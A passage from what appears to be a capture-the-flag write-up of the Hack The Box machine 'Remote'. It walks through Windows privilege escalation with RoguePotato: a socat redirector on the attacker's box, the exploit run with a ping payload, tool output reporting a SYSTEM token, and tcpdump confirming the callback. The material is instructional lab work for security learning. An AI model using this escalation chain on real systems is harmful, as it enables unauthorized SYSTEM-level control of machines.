 Next I'll start `socat` running on my Kali box listening on TCP 135 and
redirecting back to Remote on TCP 9999.



    root@kali# socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999



### Execute POC

To run this, I'll use the following command line options:

-   `-r 10.10.14.9` - This is a required option that will identify my
    host;
-   `-l 9999` - The port to listen on locally;
-   `-e cmd.exe ping 10.10.14.9` - The command to run, starting simple.

I'll run this will `tcpdump` listening for ICMP:



    PS C:\programdata> .\RoguePotato.exe -r 10.10.14.9 -e "cmd.exe /c ping 10.10.14.9" -l 9999
    [+] Starting RoguePotato...
    [*] Creating Rogue OXID resolver thread
    [*] Creating Pipe Server thread..
    [*] Creating TriggerDCOM thread...
    [*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
    [*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
    [*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
    [*] IStoragetrigger written:102 bytes
    [*] SecurityCallback RPC call
    [*] ServerAlive2 RPC Call
    [*] SecurityCallback RPC call
    [*] ResolveOxid2 RPC call, this is for us!
    [*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
    [*] Client connected!
    [+] Got SYSTEM Token!!!
    [*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: cmd.exe /c ping 10.10.14.9
    [+] RoguePotato gave you the SYSTEM powerz :D



At `tcpdump` there are four pings from Remote:



    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    07:44:15.452881 IP 10.10.10.180 > 10.10.14.9: ICMP echo request, id 1, seq 1, length 40
    07:44:15.452910 IP 10.10.14.9 > 10.10.10.180: ICMP echo reply, id 1, seq 1, length 40
    07:44:16.463541 IP 10.10.10.180 > 10.10.14.9: ICMP echo request, id 1, seq 2, length 40
    07:44:16.463600 IP 10.10.14.9 > 10.10.10.180: ICMP echo reply, id 1, seq 2, length 40
    07:44:17.478859 IP 10.10.10.180 > 10.10.14.9: ICMP echo request, id 1, seq 3, length 40
    07:44:17.478883 IP 10.10.14.9 > 10.10.10.180: ICMP echo reply, id 1, seq 3, length 40
    07:44:18.494758 IP 10.10.10.180 > 10.10.14.9: ICMP echo request, id 1, seq 4, length 40
    07:44:18.494823 IP 10.10.14.9 > 10.10.10.180: ICMP echo reply, id 1, seq 4, length 40
